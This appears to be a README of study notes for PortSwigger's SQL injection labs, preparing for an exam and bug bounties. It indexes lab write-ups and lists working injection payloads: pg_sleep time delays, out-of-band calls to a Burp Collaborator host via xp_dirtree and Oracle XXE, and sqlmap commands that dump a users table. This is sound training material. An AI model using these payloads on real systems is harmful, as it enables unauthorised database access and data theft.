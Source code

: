 # [SQL injection](https://portswigger.net/web-security/sql-injection)

## Lab

- apprentice:
  - [1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](./lab/1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md)
    - postgresql (based on time delay)
  - [2. SQL injection vulnerability allowing login bypass](./lab/2.%20SQL%20injection%20vulnerability%20allowing%20login%20bypass.md)
    - postgresql (based on time delay)
- practitioner:
  - [3. SQL injection UNION attack, determining the number of columns returned by the query](./lab/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md)
    - postgresql (based on time delay)
  - [4. SQL injection UNION attack, finding a column containing text](./lab/4.%20SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text.md)
    - postgresql (based on time delay)
  - [5. SQL injection UNION attack, retrieving data from other tables](./lab/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md)
    - postgresql (based on time delay)
  - [6. SQL injection UNION attack, retrieving multiple values in a single column](./lab/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column.md)
    - postgresql (based on time delay)
  - [7. SQL injection attack, querying the database type and version on Oracle](./lab/7.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [8. SQL injection attack, querying the database type and version on MySQL and Microsoft](./lab/8.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft.md)
    - mssql (require space after double dash)
  - [9. SQL injection attack, listing the database contents on non-Oracle databases](./lab/9.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases.md)
    - postgresql (based on time delay)
  - [10. SQL injection attack, listing the database contents on Oracle](./lab/10.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [11. Blind SQL injection with conditional responses](./lab/11.%20Blind%20SQL%20injection%20with%20conditional%20responses.md)
    - postgresql (based on time delay)
  - [12. Blind SQL injection with conditional errors](./lab/12.%20Blind%20SQL%20injection%20with%20conditional%20errors.md)
    - oracle
  - [13. Blind SQL injection with time delays](./lab/13.%20Blind%20SQL%20injection%20with%20time%20delays.md)
    - postgresql (based on time delay)
  - [14. Blind SQL injection with time delays and information retrieval](./lab/14.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval.md)
  - [15. Blind SQL injection with out-of-band interaction](./lab/15.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction.md)
    - oracle (oob interaction)
  - [16. Blind SQL injection with out-of-band data exfiltration](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md)
  - [17. SQL injection with filter bypass via XML encoding](./lab/17.%20SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding.md)

## Version detection

server synchronous (time delay):

- mssql:
- mysql:
- postgresql

  ```sql
  '||pg_sleep(10)--
  ```

  ```sql
  ';SELECT NULL from pg_sleep(10)--
  ```

- oracle:

  ```sql
  
  ```

server asynchronous (out of band):

- mssql (maybe)

  ```sql
  ';exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'-- 
  ```

- mysql
- postgresql

- oracle:

  ```sql
  'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//collaborator/">+%25remote%3b]>'),'/l')+FROM+dual--;
  ```

## Preparation for exam (bug bounty too)

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- determine version
- blind or not
- find number of columns return by query
- check columns data type

- if blind
  - time delay check
  - time delay data retrieval
  - conditional response: compare reponse
  - conditional error: compare status code
  - oob interaction
  - oob data exfiltration

## sqlmap

technique:

- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

phase:

- sqlmap -r ~/Desktop/test-sqlmap -batch
- sqlmap -r ~/Desktop/test-sqlmap -batch -dbs
- sqlmap -r ~/Desktop/test-sqlmap -batch -D public --tables
- sqlmap -r ~/Desktop/test-sqlmap -batch -D public -T users -dump

## References

[Union attack](https://portswigger.net/web-security/sql-injection/union-attacks)

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[examining the db](https://portswigger.net/web-security/sql-injection/examining-the-database)
